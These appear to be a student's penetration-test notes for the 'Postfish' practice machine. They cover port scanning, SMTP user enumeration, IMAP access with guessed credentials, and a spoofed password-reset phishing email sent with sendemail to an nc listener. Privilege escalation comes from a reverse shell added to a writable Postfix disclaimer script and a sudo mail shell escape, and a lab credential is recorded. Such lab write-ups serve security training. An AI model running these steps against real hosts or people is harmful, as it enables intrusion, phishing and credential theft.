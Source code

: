 ### Enumeration
```
IP=192.168.170.137
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,25,80,110,143,993,995 -A $IP
```
### Ports 
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
- 25
	- smtpd
- 80
	- Apache httpd 2.4.41 ((Ubuntu))
- 110
	- Dovecot pop3d
- 143
	- Dovecot imapd
- 993
	- ssl/imap Dovecot imapd
- 995
	- ssl/pop3 Dovecot pop3d
### Foothold
- 25
	- nmap -p25 --script smtp-open-relay $IP -v
		- Server doesn't seem to be an open relay, all tests failed
	- nmap --script smtp-enum-users $IP
		- root
		- claire.madison
		- brian.moore
		- mike.ross
		- sarah.lorem
	- smtp-user-enum -U custom-wordlist.txt -t postfish.off
		- Sales
		- Legal
	- known user names
		- Sales
		- Legal
		- root
		- claire.madison
		- brian.moore
		- mike.ross
		- sarah.lorem
- 110
	- nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -p110,995 $IP
- 143
	- Check login
		- curl -k 'imaps://192.168.170.137/INBOX?ALL' --user sales:sales
		- ![[Pasted image 20240715084233.png]]
		- legal gives login denied and sales does not
	- View mail
		- curl -k 'imaps://192.168.170.137/INBOX;MAILINDEX=1' --user sales:sales
		- ![[Pasted image 20240715084257.png]]
		- New email:  it@postfish.off
	- Send fake email to an employee to spoof the password
		- nc -lvnp 80
		- `sendemail -t brian.moore@postfish.off -f it@postfish.off -s postfish.off -u "Password Reset" -o tls=no
		- Then type malicious email, and have http://A_IP/
		- Should receive creds shortly
		- Supposed to receive SSH creds for brian
			- EternaLSunshinE  found in walkthrough
- 80
	- Resolved to postfish.off
	- Default landing page
		- ![[Pasted image 20240715073126.png]]
	- Team
		- Claire Madison
		- Mike Ross
		- Brian Moore
		- Sarah Lorem
		- Create wordlist with first name + last, first, last, first.last,first initial + last
		- cewl http://postfish.off/team.html > custom-wordlist.txt
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- nothing
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
### PE
#### Linux
- brian.moore
	- id
		- uid=1000(brian.moore) gid=1000(brian.moore) groups=1000(brian.moore),8(mail),997(filter)
	- sudo -l
		- can't run sudo
	- uname -a
		- `Linux postfish 5.4.0-64-generic #72-Ubuntu SMP Fri Jan 15 10:27:54 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux`
	- getcap -r / 2>/dev/null
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- brian.moore
		- claire.madison
		- mike.ross
		- sarah.lorem
		- sales
	- linpeas
		- Readable files belonging to root and readable
			- Adds a disclaimer and runs code when email is sent
			- -rwxrwx--- /etc/postfix/disclaimer
			- Add bash reverse shell to the code
				- ![[Pasted image 20240715093545.png]]
			- Send an email and we get rev shell
				- ![[Pasted image 20240715093557.png]]
- filter
	- id
		- uid=997(filter) gid=997(filter) groups=997(filter)
	- sudo -l
		- (ALL) NOPASSWD: /usr/bin/mail *
		- gtfobins
			- `sudo mail --exec='!/bin/sh'`
			- sudo /usr/bin/mail --exec='!/bin/sh'
			- gives us root
### Credentials
- brian.moore:EternaLSunshinE
### Lessons Learned